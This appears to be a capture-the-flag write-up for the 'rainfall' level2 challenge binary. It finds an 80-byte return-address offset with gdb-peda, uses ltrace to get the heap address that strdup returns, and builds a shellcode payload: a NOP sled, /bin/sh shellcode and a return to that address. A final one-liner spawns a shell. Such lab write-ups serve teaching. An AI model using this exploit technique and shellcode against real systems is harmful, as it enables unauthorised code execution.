 - `gdb ./level2`
<pre>
gdb-peda$ pattern create 100
'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL'
gdb-peda$ r < <(echo 'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL')
Starting program: /home/alarm/rainfall/level02/Ressources/level2 < <(echo 'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL')
AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAJAAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL

Program received signal SIGSEGV, Segmentation fault.

[----------------------------------registers-----------------------------------]
EAX: 0x804b580 ("AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAJAAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL")
EBX: 0x0 
ECX: 0x0 
EDX: 0x65 ('e')
ESI: 0xf7fb2000 --> 0x1d9d6c 
EDI: 0xf7fb2000 --> 0x1d9d6c 
EBP: 0x41344141 ('AA4A')
ESP: 0xffffd8a0 ("fAA5AAKAAgAA6AAL")
<strong>EIP: 0x41414a41 ('AJAA')</strong>
EFLAGS: 0x10282 (carry parity adjust zero SIGN trap INTERRUPT direction overflow)
Legend: code, data, rodata, value
Stopped reason: SIGSEGV
0x41414a41 in ?? ()
gdb-peda$ pattern offset AJAA
<strong>AJAA found at offset: 80</strong>
</pre>
- `python -c "print('a' * 75)" | ltrace ./level2`
<pre>
\_\_libc\_start\_main(0x804853f, 1, 0xbffff7f4, 0x8048550, 0x80485c0
fflush(0xb7fd1a20)                                     = 0
gets(0xbffff6fc, 0, 0, 0xb7e5ec73, 0x80482b5)          = 0xbffff6fc
puts("aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa"...)            = 76
<strong>strdup("aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa"...)          = 0x0804a008</strong>
+++ exited (status 8) +++
</pre>
- `python3 -c "import pwn; print(pwn.asm(pwn.shellcraft.sh()))"`
```
b'jhh///sh/bin\x89\xe3h\x01\x01\x01\x01\x814$ri\x01\x011\xc9Qj\x04Y\x01\xe1Q\x89\xe11\xd2j\x0bX\xcd\x80'
```

```
| Size |      Name      | Data           |
|:----:|:--------------:|----------------|
|      |                | '\90' * 20     |
|  76  |      Stack     | ShellCode (44) |
|      |                | 'a' * 12       |
|------|----------------|----------------|
|   4  |       SFP      | 'a' * 4        |
|------|----------------|----------------|
|   4  | Return Address | Adress strdup  |
|------|----------------|----------------|
```

<table>
<tbody>
<tr>
<td align="center">Size</td>
<td align="center">Name</td>
<td align="center">Data</td>
</tr>
<tr>
<td align="center" rowspan="3">76</td>
<td align="center" rowspan="3">Buffer</td>
<td align="left">'\90' * 20</td>
</tr>
<tr><td align="left">ShellCode (44)</td></tr>
<tr><td align="left">'a' * 12</td></tr>
<tr>
<td align="center">4</td>
<td align="center">SFP</td>
<td align="left">'a' * 4</td>
</tr>
<tr>
<td align="center">4</td>
<td align="center">Return Adress</td>
<td>
<p align="left">Adress strdup</p>
</td>
</tr>
</tbody>
</table>

- `((python -c 'print("\x90"*20 + "jhh///sh/bin\x89\xe3h\x01\x01\x01\x01\x814$ri\x01\x011\xc9Qj\x04Y\x01\xe1Q\x89\xe11\xd2j\x0bX\xcd\x80" + "A"*16 + "\x08\xa0\x04\x08")'); cat) | ./level2`
